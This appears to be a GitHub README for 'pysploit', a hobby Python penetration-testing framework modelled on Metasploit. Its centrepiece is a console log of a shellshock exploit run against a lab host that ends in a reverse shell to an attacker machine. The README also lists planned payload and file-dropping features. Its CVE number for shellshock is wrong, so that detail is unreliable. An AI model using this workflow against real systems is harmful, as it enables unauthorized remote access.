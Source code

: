 # pysploit

This is a metasploit-like framework for system exploitation and penetration 
testing written in python. It is a work in progress and is an educational 
exercise for me so I learn how things actually work and stop being such a skid.

### Example of exploitation of the shellshock vulnerability (CVE-2014-6071)

```
[+]	New session created
pysploit> exploit load shellshock
exploit (shellshock)> exploit options
[~]	Exploit options	[~]
=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
victim_ip               |		None
victim_port             |		None
attacker_ip             |		None
attacker_port           |		None
cgi_path                |		None
payload                 |		None
=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
exploit (shellshock)> exploit set victim_ip 192.168.56.101
exploit (shellshock)> exploit set victim_port 80
exploit (shellshock)> exploit set attacker_ip 192.168.56.102
exploit (shellshock)> exploit set attacker_port 4444
exploit (shellshock)> exploit set cgi_path /cgi-bin/status
exploit (shellshock)> exploit set payload [Not configured as of now]
exploit (shellshock)> exploit run
[*]	Checking for vulnerability
	[*]	Injecting with test nonce 13b64e57dbff4e63b412d40f02ecc933
	[+]	Received vulnerable output from target!
	[+]	Target 192.168.56.101 is vulnerable to shellshock
[*]	Running exploit for shellshock on 192.168.56.101
	[*]	Shell injection sent (reverse catch at 192.168.56.102:4444)
	[+] Shell caught by listener!
[+]	Exploitation completed!
exploit (shellshock)>
```

And on our listening machine...

![We have a catch](https://github.com/spencerdodd/pysploit/blob/master/imgs/example-catch.png "catch img")

### =-=-=-= To Do =-=-=-=

* Build network module for the framework to handle file-dropping, multi-stage payload uploading, shell-hand
ling, etc.

* Create some payloads / payload execution frameworks (based off of network module interactions)

* Potentially migrate exploitation into Twisted protocols that are created by the exploits (?)